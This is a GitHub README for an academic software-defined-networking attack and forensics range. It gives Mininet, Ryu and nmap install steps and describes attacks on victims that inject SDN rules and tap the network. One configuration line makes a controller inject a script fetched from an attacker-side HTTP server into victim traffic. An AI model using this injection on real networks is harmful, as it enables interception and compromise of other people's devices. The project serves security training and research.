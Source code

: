 # SDNcybeRangeKit

A penetration testing and digital forensics environment 

**Warning: this [PRIVATE] project is for academic/research purposes only.**

A blog post about this project can be read here:  http://www.ivanletteri.it/2019/02/10/sdncrkit/

![SDNcyberRangeKit]( https://www.ivanletteri.it/2019/02/10/sdncrkit/master/sdncrkit-logo-small.png "SDNcybeRangeKit")

INSTALL MININET
git clone git://github.com/mininet/mininet
cd mininet/
mininet/util/install.sh -nfv
sudo mn --test pingall
sudo apt-get install net-tools
sudo mn --test pingall

INSTALL PIP and PIP3
sudo apt install python-pip
sudo apt install python3-pip

INSTALL RYU Controller  
git clone git://github.com/osrg/ryu.git
cd ryu; pip install .
ls
./run_tests.sh 
cd ..
sudo apt install gcc python-dev libffi-dev libssl-dev libxml2-dev libxslt1-dev zlib1g-dev
cd ryu/
ls
cd bin/
ls
./ryu-manager ../ryu/app/simple_switch_13.py 

INSTALL NMAP for testing 
sudo apt-get install nmap

cd ryu/
ls
./run_tests.sh 

ryu-manager ../ryu/app/simple_switch_13.py

nmap 127.0.0.1 -p-

START Mininet with Remote Ryu Controller
sudo mn --controller=remote,ip=127.0.0.1,port=6633


## Concept
- Performs a SDN scenario attacks to all selected victims
- Injects SDN rules 
- Tapping the network
- All the devices victims connected to the Lan network, will be monitored for the SDNcybeRangeMonitor


## Use
- install.sh
```
bash install.sh
```
- edit hosts.txt with one IP per line
- edit controller.py, line 30, with the RyuControlleMiner httpserver IP:
```py
os.system("~/.local/bin/flowdump -s 'dump.py http://10.0.2.20:5600/script.js' -T")
```
- execute sdn-cyberange-kit.py
```
python3 sdn-cyberange-kit.py ipgateway
```

![network](https://www.ivanletteri.it/2019/02/10/sdncrkit/master/SDNcybeRangeKit-network-attack.png "network")


A complete instructions for academic scenario can be found in https://github.com/IvanLetteri/SDNcybeRangeKit/blob/master/virtualbox_scenario_instructions.md



![demo](https://www.ivanletteri.it/2019/02/10/sdncrkit/master/SDNcybeRangeKit-demo-cutted.gif "demo")
